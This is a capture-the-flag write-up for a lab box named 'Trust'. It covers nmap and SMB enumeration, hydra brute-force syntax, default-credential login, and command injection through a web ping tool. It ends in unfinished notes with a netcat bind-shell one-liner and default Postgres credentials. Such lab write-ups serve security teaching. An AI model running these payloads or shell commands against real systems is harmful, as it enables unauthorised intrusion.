






# Trust

Welcome to the Trust write up. 

- [Trust](#trust)
  - [Recon Phase](#recon-phase)
  - [Enumeration Phase](#enumeration-phase)
    - [SSH](#ssh)
    - [HTTP port 80](#http-port-80)
    - [SMB](#smb)
      - [Enum4linux](#enum4linux)
      - [SMBmap](#smbmap)
      - [Connecting to SMB](#connecting-to-smb)
    - [HTTP 666](#http-666)
    - [Postgres 5432](#postgres-5432)
  - [Exploitation Phase](#exploitation-phase)
    - [HTTP 666](#http-666-1)
    - [postgres 5432](#postgres-5432-1)
  - [Privilege Escalation](#privilege-escalation)
  - [Getting The Flag](#getting-the-flag)

## Recon Phase

like every good spy movie, we need to recon the target. During the Recon Phase,
 the focus is on passive information gathering to understand the target's 
 environment without directly interacting with it. This involves collecting 
 publicly available data such as domain names, IP addresses, email addresses, 
 employee information, and social media profiles associated with the target 
 organization. Techniques such as open-source intelligence (OSINT), 
 DNS enumeration, WHOIS queries, and reconnaissance tools aid in gathering 
 this information.





The flyer gave us a QR code that goes to the PwnToOwn page. This has lot of
details about the challenge. 

- We need to connect to the WIFI to even see the PwnToOwn machine.
- WIFI SSID = `PwnToOwn`, WIFI Password = `ZTW2024!`
- There are many of the same two boxes hosted on the machine.
- The box seems to be hosted on the end of the subnet. 
- IP of the boxes ranges from `10.0.0.` to `10.0.0.253`
- Need to submit to the leader board that is hosted on `http://10.0.0.14:80`
    

## Enumeration Phase

During the Enumeration Phase of a penetration test, the goal is to gather as 
much information as possible about the target network or system. This involves 
actively probing the target to identify potential vulnerabilities, 
misconfigurations, or weaknesses. Techniques such as port scanning, service 
identification, banner grabbing, and OS fingerprinting are commonly employed 
to enumerate the target's infrastructure.

Since we have a list of active machines on the network. We can now pick the 
machines, that we can attack because of the recon phase we that there are 
duplicates of the boxes. In this write up we are going to pick `10.0.0.248` 
as our zero machine.

```bash
sudo nmap -A -p- -sS  10.0.0.248
```

- `-A` - Enable OS detection, version detection, script scanning, and traceroute
- `-sS` - This option tells nmap to only complete half of the three-way this 
- will tell ports are open because an open port will send a SYN-ACK back to 
 nmap.
- `-p-` - Tells nmap to check every port from 1-65535. This will check every 
  port that can possibly be opened.

**Results:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 15:25 EST
Nmap scan report for 10.0.0.248
Host is up (0.0047s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4c:70:f1:60:2c:c3:fc:35:15:b0:5e:d5:bb:e2:39:5e (ECDSA)
|_  256 3f:b0:81:ab:6e:5f:dc:6a:33:fd:68:2d:52:8e:db:4c (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: WE PWNED YOUR DUMB SITE
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
666/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login :: Threatlocker Not Vulnerable Web App
|_Requested resource was login.php
5432/tcp open  postgresql  PostgreSQL DB 9.5.25
| ssl-cert: Subject: commonName=less
| Subject Alternative Name: DNS:less
| Not valid before: 2024-01-10T19:56:59
|_Not valid after:  2034-01-07T19:56:59
|_ssl-date: TLS randomness does not represent time
MAC Address: 00:15:5D:02:C3:02 (Microsoft)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 5m15s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-20T20:31:12
|_  start_date: N/A
|_nbstat: NetBIOS name: TRUST, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   4.65 ms 10.0.0.248

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.32 seconds

```

From this scan we can tell a few things right off the bat, Like it is an
Ubuntu Linux machine base off all the header. Lets start with port 22 `ssh`
server.

### SSH

`SSH` is on of the most command port open on linux machine. Secure Shell or 
common referred to as `SSH` is a way to remotely connect to a system. Unlike 
Remote Desktop protocol `RDP`, `SSH` is only a terminal interface. 

Since we got the version from nmap we can use any search engine to look for 
exploits. Unfortunately it seems like there are no exploit for openssh 
version 8.9p1.

Another thing we can try to use brute force the user and passwords. There are
too many tool for brute forcing. To name a few: 
- `Hydra`
- `John the ripper`
  
We will try hydra, We will use this command:

```bash
hydra -L <USER FILE> -P <PASSWORD FILE> <IP> ssh -t 4
```
- `-L` - This would be a text file that has a list of possible usernames for `ssh`.
- `-P` - This would be a text file that has a list of possible passwords for `ssh`.
  > NOTE: the lowercase `-l` and `-p` will only do one username or password.
- `<IP>` - this will be the target machine that we will lunch the attack against.
- `ssh` - This tells hydra that we are attack port 22. 
- `-t`  - This tells hydra how many parallel task we want to run. This will basically run 4 hydras. 

When we run this, It will fail because the username and login are not basic username and passwords that can be found on a list.
> NOTE: You can brute force your way into anything, IF you give it enough time, It might just take a few years.

### HTTP port 80

Linux is one of the most popular for hosting websites because how little
resource linux uses. When we connect to the web site though we get this.


It seems that this page was defaced by the Threatlocker Ops team. And when we look at the source code there does seem like there is anything else.



### SMB

`SMB` is very common for windows machine/computer, it is the main way to share file besides `FTP`. `SMB` tends to run on both 139 and 445. But sometime you will find only port 139 is open only. 
this is because 139 is for NetBIOS session, this was the main way for `SMB` to work before the newer version of SMB starting to use port 445. And modern version leave both open for backward compatibility. 

In the `namp` scan, it also show that port 139 and 445 is open. And the `SYN` scan show that it is the SMB service. We can use tools like `smbmap` or `enum4linux` to scan the `SMB` service/share. 

#### Enum4linux

To use `Enum4linux` you can use the following: 

```bash
enum4linux -a <IP>
```
Using this command will try to use known usernames and get you basic info about the `SMB`share. When we ran the scan we can even see the Temp share and what permission we have on that share. Another thing that the scan found was the password policy for the share. It even found a user called `alex`. The most important thing to know is that you can connect to the share with a anonymous user and that the only share we have access to is the `Temp` share.  

#### SMBmap

To use `smbmap` you can use the following:
```bash
smbmap -H <IP> -p <port>
```
- `-H` - This tell `smbmap` what host to scan.
- `-p` - This tell `smbmap` what port to scan. 
  
When we run this scan it don't show as much as `enum4linux` did. But its a lot easy to ready what is on this share. The most important thing to know is that you can connect to the share with a anonymous user and that the only share we have access to is the `Temp` share.  

#### Connecting to SMB 

Now that we have some info about the `SMB` share, We can connect to the share with the anonymous user. We can use the one of follow to do that:

```bash
smbclient --no-pass //<IP>/Temp
``` 
OR

```bash
smbmap -H <IP> -p 445 -r Temp
```
Once we connect to the `Temp` share, and use `dir` or `ls` we can see the following files:

- Team1.log
- Team.log 

Now we can use the `get` command to grab the files. And when we cat the files, we can see this. 

**Team.log**
```
CEO: Our site just got hacked.

Alex: what?

CEO: I want a better web server by monday end of day.

Alex: I can only have a basic one by monday, but can have it better by Friday.

CEO: Ok, It better look good by Friday then.  

Alex: What about the hacked web site?

CEO: Leave It.

Alex: Ok

ALEX: I will start the new web site up now and work on it though out the week.

CEO: I want daily updates.

ALEX: ok

```
**Team1.log**
```
I.T: Hey Alex did you open a web server?

Alex: yes the old is got hacked.

I.T: ok, you have to to change user and password from admin:password to something better.

Alex: Wait how did you guys found what the user and password was?

I.T: The security team saw that a new server port was opened and then they just guess the password.

I.T: You have a course that you need to complete by friday.

Alex: ( ;-;) ok
```
The two files seems to be logs for the microsoft teams chat for a person named Alex.
From the files we now know that happen to the website that was on port 80 and that there is another web server active. This new website might have a login page with the username and password being `admin:password`.

### HTTP 666

From the `nmap` scan, this port might be a another web server and this would be kinda confirm with the messages form the `SMB` share. Now when we connect to the port with a web browser we get this page. 



Even though the the username and password might have change it never hurt to try it. So when we try the `admin:password` and get into the site. 



All we can do is say that alex is going to get fired soon. 
exploring the site we can see that it have a ping utility tool on the site. 



This page seem to be using the native ping utility on ubuntu, So this might have a command injection. we can test this by a few ways.

1. Add `|` to the end of the end of the IP
2. Add `;` to the end of the end of the IP
3. Add `&&` to the end of the end of the IP

**Example**
```bash
127.0.0.1 | <COMMMAND>
```

We can should use a command that is on every linux machine, `ls` command will work. 
so when we run this.
```bash
-c 1 127.0.0.1 ; ls
```
- `-c 1` - This will tell the ping command to only send one ICMP packet, inside of four packets.
- `127.0.0.1` - This is the ip that the ping command will try to ping. 
  > Note: 127.0.0.1 is the for local host. SO it will try to ping itself. 
- `;` This will tell the web server to run the next command.
- `ls` This will list the current directory.
  
So when we run the command, we will get this. 



From this we know that command injection works and now we can more the the [Exploitation phase](#exploitation-phase) of the CTF.

### Postgres 5432

Postgresql is most used on the back end and in most cases it would be install on a different server due to security. The default port is 5432. Since we don't have a way to interact with it normally like a website to interact with it without a user and password. We will might have to brute force into the database.

The first thing we can do is to try to connect to the `postgres` with this command t

```bash
psql -h 10.0.0.248 -U postgres -W postgres -P 5432
```

SELECT lanname,lanpltrusted,lanacl FROM pg_language;

## Exploitation Phase

### HTTP 666
### postgres 5432
## Privilege Escalation
## Getting The Flag 

HTTP Port 80
Http 666
nc -e Reverse shell or nc bind shell

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f
5432 postresSQL
user and password: postgres:postgres
create lang module for metaspoilt